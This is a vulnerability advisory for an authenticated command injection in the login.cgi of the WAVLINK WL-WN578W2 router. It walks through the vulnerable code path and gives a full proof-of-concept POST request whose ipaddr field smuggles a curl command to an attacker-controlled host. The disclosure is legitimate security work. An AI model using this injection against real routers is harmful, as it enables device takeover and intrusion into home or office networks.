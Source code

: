 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection in Login Module

PS:



1.  Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device (WAVLINK WL-WN578W2) for accurate vulnerability verification.

2.  This command injection vulnerability requires **authenticated access**. The `password` parameter uses a dynamic encryption method (value changes with requests/logins), so attackers must first obtain valid credentials or a captured encrypted `password` to exploit the vulnerability.

## Overview

A command injection vulnerability exists in the login module of WAVLINK WL-WN578W2 (firmware version: M78W2\_V221110). The vulnerability resides in the `ftext` function (entry point) and `sub_401340` function (core login logic) within the `login.cgi` file, which processes the `ipaddr` parameter without input sanitization. When submitting a POST request to the `/cgi-bin/login.cgi` (a program for handling login requests on the device) endpoint with the `page=login` action, authenticated attackers can inject arbitrary system commands via the `ipaddr` parameter. This enables unauthorized execution of system commands, access to sensitive device information, or full compromise of the device.



![Vulnerability Overview Screenshot](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/](https://www.wavlink.com/) (official website)

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware Version**: M78W2\_V221110 (Software version: M78W2\_V221110)

*   **Firmware Download**: Available via WAVLINK official website or device web management interface

*   **Affected Endpoint**: `/cgi-bin/login.cgi` (POST method, a program for processing device login requests)

*   **Vulnerable Code**:


    *   `sub_401340` function in `login.cgi` (constructs and executes system commands)

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**:

1.  Execute arbitrary system commands on the device;

2.  Read sensitive files (e.g., device configuration, stored credentials);

3.  Modify device settings or plant malicious scripts;

4.  Pivot to internal networks (if the device acts as a gateway)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability stems from improper input validation in the device’s login processing workflow. The `ipaddr` parameter—controlled by the user—is directly concatenated into a system command without filtering special characters, leading to command injection. Below is the detailed code flow and root cause analysis:

#### 1. Request Entry & Input Parsing (`ftext` Function)

The `ftext` function is the entry point for handling login-related requests, with key execution steps:



*   **Referer Check**: First calls `sub_403EDC` to verify the `HTTP_REFERER` header (to prevent cross-origin request forgery), but this does not block subsequent command injection.

*   **Request Body Reading**: Retrieves the `CONTENT_LENGTH` header to determine the size of the POST request body, allocates memory via `malloc`, and reads the entire request body into a buffer (`v6`) using `fgets`.

*   **Parameter Routing**: Parses the `page` parameter from the request body via `sub_4036B4` (a custom parameter-parsing function). When `page=login` (indicating a login action), the function invokes `sub_401340(v6, 0x400000)` to process core login logic, passing the full request body (containing `ipaddr`, `username`, `password`, etc.) to `sub_401340`.

#### 2. Core Login Logic & Command Injection (`sub_401340` Function)

The `sub_401340` function handles credential verification and post-login configuration, and contains the vulnerable code segment:



*   **Parameter Parsing**: Extracts the `ipaddr` parameter from the input buffer (passed by `ftext`) using `sub_4036B4("ipaddr", a1, 0)`, and stores the parsed value in the `v9` variable.

*   **Credential Verification**: Compares the encrypted `password` parameter from the request with the device’s stored credentials (retrieved via `wlink_uci_get_value`). Only after successful verification does the function proceed to the command construction step.

*   **Vulnerable Command Construction**: After passing credential checks, the function constructs a system command using `sprintf` and executes it via `system`


*   **Root Cause**: The `ipaddr` parameter (`v9`) is not filtered for command delimiters (e.g., `;` for command separation, `&&` for logical AND, `|` for pipe, `#` for comment). Attackers can use these delimiters to "break out" of the original `applogin.sh`` del` command context and append arbitrary malicious commands.



![Disassembly Snippet 1: Vulnerable Code Path](./imgs/2.png)



![Disassembly Snippet 2: Command Construction Flow](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

This PoC uses the `ipaddr` parameter to inject a `curl` command, which sends a request to an attacker-controlled server—proving successful command execution. A **valid encrypted **`password` (captured via legitimate login) is required.

#### Full PoC HTTP Request

visit /login.shtml

```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 300
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.10.1&key=M55373357&password=a870e4ba57ee340c2c29f6e7dbd17abb&lang_select=cn
```

#### PoC Execution Results



*   **Failure (Wrong Password Hash)**: If the `password` parameter uses an invalid/incorrect encrypted hash, the device rejects the login request before reaching the command execution step. No `curl` request is sent to the attacker’s server, and the PoC fails.



![PoC Result: Wrong Password Hash (Failure)](./imgs/4.png)



*   **Success (Right Password Hash)**: If the `password` parameter uses a valid encrypted hash, the device passes credential verification, executes the injected `curl` command, and the attacker’s server records the request.



![PoC Result: Right Password Hash (Success)](./imgs/5.png)





